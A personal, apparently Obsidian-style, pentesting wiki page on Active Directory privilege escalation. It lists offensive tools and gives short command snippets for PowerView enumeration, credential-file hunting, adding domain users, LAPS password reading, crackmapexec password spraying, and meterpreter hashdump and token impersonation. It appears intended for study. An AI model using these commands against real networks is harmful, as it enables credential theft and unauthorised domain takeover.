 # Active Directory Privilege Escalation
For exploitation see [[AD-Exploitation-Hub]] or general theory and definitions [[Active-Directory-Defined]]. For commands cheatsheet [[Active-Directory-Commands]] or for enumeration see [[Active-Directory-Enumeration-Defined]]. [[Network-Services]] are used extensive, especially [[DNS-Defined]] in AD networks.

THIS VERY WORK IN PROGRESS! AND VERY EARLY THERE ARE BETTER ELSEWHERE

## Scripts
[ADAPE](https://github.com/hausec/ADAPE-Script)

## Tooling
[Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection) is  a github repose that contains ..*"
Nightly builds of common C# offensive tools, fresh from their respective master branches built and released in a CDI fashion using Azure DevOps release pipelines."* 

## General Enumeration
Go to [[Active-Directory-Enumeration-Cheatsheet]] for a full listing of just commands; [[Active-Directory-Enumeration-Defined]] for more detail whys and hows, but it is still a Windows system you have foothold on so [[Windows-Privilege-Escalation-Vectors]] maybe required! 


## Powerview
PowerView "is a powershell tool to gain network situational awareness one Windows domains." For a good concatenation of all the [[Powerview-Cheatsheet]]s see follow the link.
[Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

Due to AD commands are a restricted to DCs and some(times) Adminstrators. Get PowerView on the box, you need some help.
```powershell
. .\PowerView.ps1				# import PowerView
Import Module PowerView.ps1			
Get-NetDomain					# Like ADDomain but lists less information
Get-NetDomainController				# List all Domain Controller
Get-NetForest					# like AdForest
Get-NetDomainTrust				# like NetDomainTrust

Find-InterestingDomainShareFile
-CheckAccess
*password*
*sensitive*
*admin*
*login*
*secret*
*unattend*.xml
*vmdk
*creds*
*credential*
*.config
```

## Bloodhound and Sharphound
Mapping out the Domain and its properties is key to mental digesting the interconnected system of systems, abstrat and physical see:[[Neo4j-And-Bloodhound-Guide]]


## Users and Groups
[[Active-Directory-Default-Security-Groups-Table]] also contains addition pwnables possiblities.
```powershell
net user $user $password /add /domain
net group "$groupname" /add $user

# LAPs group can read passwords
Get-ADComputer -Filter 'ObjectClass -eq "computer"' -Property *
# Password is in output or Kali lapsdumper
```

## Exploitation Tool
[[Impacket-Cheatsheet]]
[[Kerbrute-Cheatsheet]]
[[Crackmapexec-Cheatsheet]]

You want to target the subnet and then as you laterally move through the network the Adminstrators and DCs.
`crackmapexec smb $IP -u users.txt -p passes.txt`

## Recon Tools

- **DNS**
For more about [[DNS-Defined]], for enumeration for DNS see both 
[[DNS-Recon-Active]] and [[DNS-Recon-Passive]].
- **SMB**
See [SMB tool](SMB-Recon-Cheatsheet.md) and [[RPCClient-Cheatsheet]]
- **LDAP**
[[LDAP-Recon]]

#### Empire and Starkiller
[[Empire]]

Rubeus, Seatbelt, [[Mimikatz-Cheatsheet]]


#### Metasploit and Proxychains

Metasploit combined with proxychains can used to pivot and access segmented sections of network.
The shells create route through then inaccessable parts of the network can be mapped beyond the shell's address.
To proxy through the network see sections on [[Proxies]] and [[Pivoting-and-Proxying-with-Metasploit]] 

Due to Trusts, pivoting in required to hop to the connection between Domains. 
Trust can be: 
1. Directional - The direction of the trusts flows from a trusting domain to a trusted domain.
1. Transitive - The trust relationship expands beyond just two domains to include other trusted domains.

If inclined meterpreter and its commands:
```meterpreter
migrate 	# Don't forget to migrate to better processes as processes die: lsass.exe
hashdump

use incognito
list_token -u
impersonate_token $TOKEN
```


## Services

```powershell
setspn -T medin -Q  */*        # extract all accounts in the SPN - service principle name - service and account mapping
```